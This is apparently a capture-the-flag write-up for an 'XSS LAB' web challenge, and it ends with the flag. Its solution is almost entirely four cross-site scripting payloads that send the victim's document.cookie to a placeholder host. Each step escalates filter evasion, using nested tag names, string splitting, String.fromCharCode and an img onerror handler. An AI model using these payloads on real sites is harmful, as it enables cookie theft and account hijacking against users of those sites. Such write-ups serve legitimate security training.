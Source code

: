 ## XSS LAB

### Description

xss, EVERYWHERE

_Note_ : If your payload does not seem to work at first, please use [RequestBin](https://public.requestbin.com/) to check before contacting the support.   

**Author: algorab**

### Solution

Let's suppose we want to exfiltrate the cookies to the url `http://domain/`.

#### Step 1

Payload: 
```html
<script>document.location.replace("http://domain/?c="+document.cookie)</script>
```

#### Step 2

Payload:
```html
<scrscriptipt>document.location.replace("http://domain/?c="+document.cookie)</scrscriptipt>
```

#### Step 3

Payload:
```html
<scrscriptipt>window["docu"+"ment"].location.replace("//domain/?c="+window["docu"+"ment"]["cook"+"ie"])</scrscriptipt>
```

#### Step 4

Payload:
```html
<imimgg src=x onerror='javascscriptript:window[`docu`.concat(`ment`)].location.replace(String.fromCharCode(47).concat(String.fromCharCode(47)).concat(`domain`).concat(String.fromCharCode(47)).concat(`?c=`).concat(window[`docu`.concat(`ment`)][`coo`.concat(`kie`)]))' >
```

### Flag

`N0PS{cR05s_S1t3_Pr0_5cR1pT1nG}`